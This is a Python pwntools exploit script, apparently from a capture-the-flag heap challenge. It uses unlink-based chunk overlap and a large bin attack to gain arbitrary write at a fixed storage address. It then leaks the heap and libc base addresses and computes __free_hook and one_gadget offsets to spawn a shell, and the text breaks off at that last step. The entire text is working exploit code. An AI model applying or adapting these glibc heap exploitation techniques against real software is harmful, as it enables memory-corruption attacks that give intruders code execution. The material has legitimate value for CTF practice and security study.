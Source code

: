 ```py
    Update(0,(0x18-12)*'a')
    log.success('overwrite chunk1 size')
    Alloc(0x18)#1
    Alloc(0x4d8)#7

    Delete(1)
    Delete(2)#unlink

    Alloc(0x38)#1--->7 overlap
    Alloc(0x4e8)#2

    #same method to get another one

    Delete(4)
    Update(3,'a'*(0x18-12))

    Alloc(0x18)#4
    Alloc(0x4d8)#8

    Delete(4)
    Delete(5)#unlink

    Alloc(0x48)#4-->8 overlap

    #large bin attack
    #insert unosorted bin to large bin list
    Delete(2)#make chunk 0x5c0 into large bin
    Alloc(0x4e8)#2
    Delete(2)
    #use chunk7 to overwrite chunk2
    storage = 0x13370000 + 0x800
    fake_chunk = storage - 0x20
    p1 = p64(0)*2 + p64(0) + p64(0x4f1)
    p1 += p64(0) + p64(fake_chunk)
    Update(7,p1)
    #use chunk8 to overwrite large bin
    p2 = p64(0)*4 + p64(0) + p64(0x4e1)#size
    p2 += p64(0) + p64(fake_chunk+8)
    p2 += p64(0) + p64(fake_chunk-0x18-5)
    Update(8,p2)
    #gdb.attach(p)
    Alloc(0x48)#2
    #malloc to 0x133707e0
    puts_got = elf.got['puts']
    Update(2,p64(0)*5+p64(0x13377331)+p64(storage))
    payload = p64(0)*3 + p64(0x13377331)+p64(storage) + p64(0x1000) + p64(storage-0x20+3)+p64(8)
    Update(0,payload)
    View(1)
    p.recvuntil('Chunk[1]: ')
    heap_base = u64(p.recvline().strip('\n')) - 0x60
    log.success('heap base => ' + hex(heap_base))
    #leak libc
    payload = p64(0)*3 + p64(0x13377331)+p64(storage) + p64(0x1000) + p64(heap_base+0x60+0x10) + p64(8)
    Update(0,payload)
    View(1)
    p.recvuntil('Chunk[1]: ')
    libc_base = u64(p.recvline().strip('\n')) - 88 - 0x3c4b20
    log.success('libc base => ' + hex(libc_base))
    #get shell
    free_hook = libc_base + libc.symbols['__free_hook']
    gadgets = [0x45216,0x4526a,0xf02a4,0xf1147]
    shell_addr = libc_base + gadgets[1]
```